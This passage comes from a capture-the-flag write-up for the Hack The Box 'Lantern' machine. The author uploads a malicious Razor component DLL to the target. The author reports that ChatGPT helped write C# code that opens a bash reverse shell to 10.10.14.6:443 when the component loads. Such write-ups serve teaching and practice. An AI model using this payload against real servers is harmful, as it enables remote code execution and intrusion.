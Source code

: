 That class name must have come from the name of the `.razor` file.

#### Working Razor POC

Back in VisualStuido in the Solutions Explorer, I’ll rename `Component1.razor` to `Component.razor`. That renames the CSS file as well.

On rebuilding and reloading into DotPeek, it looks better:

![image-20240822085123959](/img/image-20240822085123959.png)

There’s a cron running periodially that will clear out the Admin page and remove any loaded DLLs. I have to wait for that cron, or change the name (which involves changing the name of the entire project). Once that’s done, if I re-upload, and “Search”, it loads:

![image-20240822085341502](/img/image-20240822085341502.png)

The HTML from my dll is added to the page.

#### Shell

With the help of ChatGPT, I’ll get code added to `Component.razor` to execute commands on the server when the dll is loaded. I’m going to override the `OnInitialized` function I noted [above](/2024/11/30/htb-lantern.html#internallanterndll), as that seems like a good time to run.

```

@using System.Diagnostics;
<div class="my-component">
    Exploited by 0xdf.
</div>

@code
{
    protected override void OnInitialized()
    {
        try {
            Process p = new Process();
            p.StartInfo.FileName = "/bin/bash";
            p.StartInfo.Arguments = "-c \"/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \"";
            p.StartInfo.RedirectStandardOutput = true;
            p.StartInfo.UseShellExecute = false;
            p.Start();
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}

```

I’ll compile this and upload it to Lantern. On loading it, the HTML is added:
